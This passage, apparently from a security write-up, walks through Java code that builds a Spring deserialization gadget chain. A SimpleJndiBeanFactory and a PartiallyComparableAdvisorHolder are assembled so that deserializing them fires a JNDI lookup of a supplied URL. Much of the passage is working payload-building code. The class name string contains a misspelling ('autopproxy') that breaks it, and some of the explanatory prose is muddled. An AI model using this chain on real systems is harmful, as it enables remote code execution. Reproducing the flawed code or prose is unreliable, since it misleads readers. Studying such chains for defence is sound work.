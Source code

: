  - Follow up on the `SpringUtil#makeJNDITrigger` method, and continue to call the `SimpleJndiBeanFactory#setShareableResources` method, which converts `jndiUrl` into a `list` object, and then calls the `this.shareableResources.addAll` method to perform an `addAll` operation on the `shareableResources` HashSet`. Then get `bf`, set the value of `logger` to `NoOpLog` instantiation object, and operate on the obtained `bf.getJndiTemplate()` in the same way. Finally, return the `BeanFactory` instantiation object.

```java
public static BeanFactory makeJNDITrigger ( String jndiUrl ) throws Exception {
    SimpleJndiBeanFactory bf = new SimpleJndiBeanFactory();
    bf.setShareableResources(jndiUrl);
    Reflections.setFieldValue(bf, "logger", new NoOpLog());
    Reflections.setFieldValue(bf.getJndiTemplate(), "logger", new NoOpLog());
    return bf;
}
```

```java
public void setShareableResources(String... shareableResources) {
    this.shareableResources.addAll(Arrays.asList(shareableResources));
}
```

 - Continue to follow up on the `SpringPartiallyComparableAdvisorHolder#makeBeanFactoryTriggerPCAH` method, first create the instantiated object of `BeanFactoryAspectInstanceFactory`, and reflect the `bf` variable and `name` to be`beanFactory` and `name` respectively. Then create the `AbstractAspectJAdvice` object, set the value of `aspectInstanceFactory` to `aif` variable object for passing. And set the `declaringClass`, `methodName`, and `parameterTypes` of `advice` to `Object.class`, `toString`, and `new Class[0]`, create the `AspectJPointcutAdvisor` object, place the `advice` with a series of values ​​set in the `advice` variable of the `advice` object. Finally, create the `org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder` object, set the `advice` to the `advice` member variable of the `advice` object, and call `uf.makeToStringTriggerUnstable(pcah)`.

```java
public static Object makeBeanFactoryTriggerPCAH ( UtilFactory uf, String name, BeanFactory bf ) throws ClassNotFoundException,
        NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException, Exception {
    AspectInstanceFactory aif = Reflections.createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
    Reflections.setFieldValue(aif, "beanFactory", bf);
    Reflections.setFieldValue(aif, "name", name);
    AbstractAspectJAdvice advice = Reflections.createWithoutConstructor(AspectJAroundAdvice.class);
    Reflections.setFieldValue(advice, "aspectInstanceFactory", aif);

    // make readObject happy if it is called
    Reflections.setFieldValue(advice, "declaringClass", Object.class);
    Reflections.setFieldValue(advice, "methodName", "toString");
    Reflections.setFieldValue(advice, "parameterTypes", new Class[0]);

    AspectJPointcutAdvisor advisor = Reflections.createWithoutConstructor(AspectJPointcutAdvisor.class);
    Reflections.setFieldValue(advisor, "advice", advice);

    Class<?> pcahCl = Class
            .forName("org.springframework.aop.aspectj.autopproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder");
    Object pcah = Reflections.createWithoutConstructor(pcahCl);
    Reflections.setFieldValue(pcah, "advisor", advisor);
    return uf.makeToStringTriggerUnstable(pcah);
}
```
